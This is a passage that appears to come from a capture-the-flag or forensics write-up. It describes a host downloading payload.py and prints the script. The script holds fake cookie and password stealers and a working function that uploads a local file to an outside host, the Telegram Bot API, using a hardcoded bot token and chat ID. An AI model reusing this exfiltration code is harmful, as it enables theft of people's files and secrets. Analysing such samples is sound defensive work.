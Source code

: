 ```html
```

Then 192.168.153.129 downloaded a payload.py file.

Let's export the payload.py and analyze it:
![image](../../assets/{D2BFF433-2192-4A89-AD83-C0F7DDA13B2B}.png)

Looking through the code:

```python
import requests
import os
import time


def get_browser_cookies():

    print("[*] Extracting browser cookies...")
    return {"facebook.com": "FAKE_FB_COOKIE", "gmail.com": "FAKE_GMAIL_COOKIE"}

def get_saved_passwords():

    print("[*] Retrieving saved passwords...")
    return [("user@example.com", "P@ssw0rd123"), ("admin@corp.com", "Adm1nPass!")]


def exfiltrate_file():
    file_path = "/home/kali/Desktop/sec.txt"
    token = "8093615049:AAEtXh1ThBm5jZ-hQ7L57HxwwfK1DsFT9eo" 
    chat_id = "5112027572"
    
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            print("[*] Sending file to Telegram...")
            requests.post(
                f"https://api.telegram.org/bot{token}/sendDocument",
                data={"chat_id": chat_id},
                files={"document": f}
            )
```
